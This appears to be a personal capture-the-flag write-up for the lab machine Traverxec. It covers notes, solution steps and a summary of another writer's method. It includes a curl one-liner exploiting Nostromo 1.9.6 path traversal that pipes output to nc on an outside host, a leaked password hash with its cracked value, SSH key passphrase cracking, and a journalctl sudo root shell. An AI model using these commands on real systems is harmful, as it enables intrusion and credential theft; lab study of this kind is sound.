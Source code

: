 # <span style="color:#FF9966">Machine #18 Traverxec</span>  


## <span style="color:#FF9966">Notes During Working on the Machine 🧐🤓   

* Web server being used called "Nostromo" version 1.9.6.
* Seems like it's vulnerable to an RCE.
* But the code searchsploit provides sucks I'll try and find another one.
* That if the website is even vulnerable to it. 
* I've got a reverse shell using the exploit. Seems like the exploit was right on spot
* Now let's get to priv esc.
* I got a password for david hopefully he's reusing it.
  ```cmd
  -rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd                 
  david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
  ```  
* Cracked the password Nowonly4me nowonly4me
* This password is useless I tried it with SSH david, su, as the password for sudo of www-data, ssh root, su root and even sshed on localhost.

* The Nostromo web server was vulnerable to the easiest rce I've ever encountered (v1.9.6) so I got access as www-data easily.
* What I've tried and found so far  
  * A useless password of david's that I cracked. UPDATE Maybe I can make a list of all permutations possible for the password I found and brute force the SSH (But it seems impossible).
  * A nameserver IP address.
  * The sudo version is vulnerable (1.8.27) but not in my current user.
  * There's a kernel exploit for the Linux version we have (I'm gonna try it & if it works look for the intended way then).
  * No sign of any DBs. UPDATE I can't run any kernel exploit because there's no c compiler on the victim. 
  * The log file "wtmp" maybe I can transfer it to my box through `nc` & then try & find a way of reading it.
  * The processes seem to be borningly legit. UPDATE DEADEND.
  * No interesting crons.
  * No interesting SUID.
  * No interesting capabilities.
* Maybe the web server is what will et me David because he's the admin. UPDATE I've researched the web server's files nothing seems interesting.
* David is in a number of groups the most interesting one seem to be `video` which seems also useless at the moment [netdev, video, plugdev, floppy, cdrom, audio, dip].
* This turned out to be the freaking directory's name `public_www` that opens in browser
* I have the ssh key but the password I have is not working as a passphrase for the key. I will try and bruteforce it.
* Found it and it's `hunter`
<br/><br/>


## <span style="color:#FF9966">How Did I Solve the Machine 😎🥳 
1. I found an http service with Nostromo web server version 1.9.6 which had a directory traversal vulnerability with an exploit python code that was easy to use.
2. I got foothold on the system as `www-data` and I scoured the system for something until I realized that the conf file of the web server had something.
3. It turned out that with Nostromo we can access the home directories on the system which meant we can access david's home unless he stops me from doing so.
4. So I was able to access the home of david but at first I wasn't really sure what I can access inside of it.
5. Finally, I realized that there's a directory called `www_public` that's the root of the david home that is accessed through the browser and I was able to list the insides of this directory to find out that there is a zip file that has a backup of the home of david with the information of the SSH.
6. Then I had to bruteforce the ssh key with `ssh2john.py` and then `john` to find out the passphrase of the key and this way I got david.
7. Root was relatively easy because I was able to `sudo journalctl` and when opening something with it as I found in "gtfobins" we can write `!/bin/sh` which opens a root shell.

<br/><br/>



## <span style="color:#FF9966">Where I Got Stuck?😡😧  

* I haven't read the configuration file of the web server properly. I should've looked for nostromo's documentation and found out what everything in the file meant because I was looking for a way to access david's directory and the word `/home` should've been a hint for me to think of this config file. 

<br/><br/>



## <span style="color:#FF9966">What Did I learn from this Machine?👀  

* That sometimes there could be directories that I don't have read permissions to but I have read permissions to its children. To the files inside of it.

<br/><br/>



## <span style="color:#FF9966">Writeups ✍🏽📓   

### 0xdf hacks stuff  

* He didn't use the exploit code but tried to exploit the vulnerability on his own by using `curl` as follows  

  ```
  curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d "id | nc 10.10.14.6 443"
  ```
* In the previous code he sent a POST request with `curl` and then piped the output into an `nc [their IP] 443` and that he will be listening on the port `443` to get the output their[I like the idea].

<br/><br/>




<!-- @nested-tags:machines/directory_traversal/Traverxec,machines/screwed_up_permissions/Traverxec-->